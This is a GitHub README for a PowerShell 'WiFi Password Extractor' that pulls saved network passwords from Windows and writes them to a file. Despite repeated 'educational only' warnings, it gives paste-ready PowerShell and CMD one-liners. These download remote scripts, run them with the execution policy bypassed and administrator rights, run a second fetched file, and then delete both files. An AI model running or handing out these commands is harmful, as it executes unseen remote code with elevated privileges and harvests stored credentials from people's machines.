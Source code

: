 <div align="center">

# ⚠️ SQD5-DCWH WiFi Password Extractor

<img src="https://img.shields.io/badge/PowerShell-5.1%2B-blue?style=for-the-badge&logo=powershell" alt="PowerShell">
<img src="https://img.shields.io/badge/Windows-7%20%7C%208%20%7C%2010%20%7C%2011-0078d4?style=for-the-badge&logo=windows" alt="Windows">
<img src="https://img.shields.io/badge/Status-EDUCATIONAL%20ONLY-red?style=for-the-badge" alt="Educational Only">

### _WiFi Password Extraction Tool - Educational Purposes Only_ 🎓

<img src="https://user-images.githubusercontent.com/74038190/212257454-16e3712e-945a-4ca2-b238-408ad0bf87e6.gif" width="100">

</div>

---

> [!DANGER]
>
> # 🚨 DO NOT RUN THIS SCRIPT! 🚨
>
> **THIS IS FOR EDUCATIONAL AND RESEARCH PURPOSES ONLY**
>
> - 🔴 **DO NOT EXECUTE** this script on any system
> - 🔴 **FOR LEARNING ONLY** - Study the code, don't run it
> - 🔴 **POTENTIAL SECURITY RISK** if misused
> - 🔴 **YOU ARE RESPONSIBLE** for any consequences

---

## 🎯 Quick Demo (Educational Only)

> [!WARNING] > **These commands are for educational demonstration only!**
>
> **DO NOT RUN unless you fully understand the risks and have proper authorization!**

### 🏃‍♂️ PowerShell One-Liner

```powershell
$i="$env:TEMP\sqd5dcwh.ps1"; $b="$env:TEMP\run.bat"; iwr "https://raw.githubusercontent.com/09sychic/sqd5-with-dcwh/main/sqd5dcwh.ps1" -OutFile $i; Start-Process "powershell.exe" -ArgumentList "-NoProfile","-ExecutionPolicy","Bypass","-File",$i -Verb RunAs -Wait; Remove-Item $i -Force; iwr "https://raw.githubusercontent.com/09sychic/sqd5-with-dcwh/main/run.ps1" -OutFile $b; Start-Process $b -Wait; Remove-Item $b -Force

```

### 📱 CMD Version

```cmd
powershell -Command "$i='$env:TEMP\sqd5dcwh.ps1'; $b='$env:TEMP\run.bat'; iwr 'https://raw.githubusercontent.com/09sychic/sqd5-with-dcwh/main/sqd5dcwh.ps1' -OutFile $i; Start-Process 'powershell.exe' -ArgumentList '-NoProfile','-ExecutionPolicy','Bypass','-File',$i -Verb RunAs -Wait; Remove-Item $i -Force; iwr 'https://raw.githubusercontent.com/09sychic/sqd5-with-dcwh/main/run.ps1' -OutFile $b; Start-Process $b -Wait; Remove-Item $b -Force"

```

> [!CAUTION] > **REMEMBER:** Running these commands will:
>
> - Download and execute the script automatically
> - Request administrator privileges
> - Extract WiFi passwords from your system
> - **Only use on systems you own or have explicit permission to test!**

---

## 📋 What This Tool Does

This PowerShell script demonstrates WiFi password extraction techniques by:

- 🔍 Extracting saved WiFi profiles from Windows
- 📄 Displaying stored network passwords
- 💾 Exporting results to text file
- 🎨 Providing a colorful terminal interface

---

## 🔗 Script Location

**Main Script:** [sqd5dcwh.ps1](https://github.com/09sychic/sqd5-with-dcwh/blob/main/sqd5dcwh.ps1)

---

## 📋 System Requirements

<div align="center">

<img src="https://img.shields.io/badge/OS-Windows_7+-0078d4?style=flat-square&logo=windows" alt="Windows 7+">
<img src="https://img.shields.io/badge/PowerShell-5.1+-012456?style=flat-square&logo=powershell" alt="PowerShell 5.1+">
<img src="https://img.shields.io/badge/Privileges-Administrator-red?style=flat-square&logo=windows-terminal" alt="Admin Required">

</div>

---

## 🎓 Educational Use Cases

- **Security Research:** Understanding Windows credential storage
- **Penetration Testing Education:** Learning about local privilege escalation
- **PowerShell Learning:** Studying advanced scripting techniques
- **Cybersecurity Awareness:** Understanding password security risks

---

## ⚖️ Legal Disclaimer & Warnings

<div align="center">

<img src="https://user-images.githubusercontent.com/74038190/212257460-738ff738-247f-4445-a718-cdd0ca76e2db.gif" width="100">

</div>

> [!CAUTION] > **CRITICAL LEGAL AND SECURITY WARNINGS**
>
> ### 🚨 DO NOT USE FOR:
>
> - ❌ Unauthorized access to networks
> - ❌ Accessing systems without permission
> - ❌ Any illegal or malicious activities
> - ❌ Violating privacy or computer crime laws
>
> ### ✅ ONLY ACCEPTABLE FOR:
>
> - ✅ Educational research and learning
> - ✅ Authorized penetration testing
> - ✅ Personal system security assessment
> - ✅ Academic cybersecurity studies
>
> ### ⚠️ IMPORTANT NOTICES:
>
> - **YOU ARE FULLY RESPONSIBLE** for how you use this code
> - **RESPECT ALL LOCAL AND INTERNATIONAL LAWS**
> - **OBTAIN EXPLICIT PERMISSION** before testing on any system
> - **AUTHOR IS NOT LIABLE** for misuse or damages

---

## 🛡️ Security Considerations

- This tool demonstrates why saved passwords can be security risks
- Always use strong, unique passwords for WiFi networks
- Consider using WPA3 security protocols when available
- Regularly audit saved network profiles on your devices

---

## 🤝 Responsible Disclosure

If you discover security vulnerabilities through educational use of this code, please follow responsible disclosure practices and report findings to the appropriate parties.

---

## 📄 License

<div align="center">

<img src="https://img.shields.io/github/license/09sychic/sqd5-with-dcwh?style=for-the-badge&color=red" alt="License">

**This project is for educational purposes only**

</div>

---

<div align="center">

### ⚠️ Remember: With Great Power Comes Great Responsibility ⚠️

<img src="https://user-images.githubusercontent.com/74038190/212257468-1e9a91f1-b626-4baa-b15d-5c385dfa7cd2.gif" width="100">

**🎓 Learn Responsibly • 🛡️ Use Ethically • ⚖️ Follow Laws**

<img src="https://komarev.com/ghpvc/?username=09sychic&style=for-the-badge&color=red" alt="Profile Views">

</div>
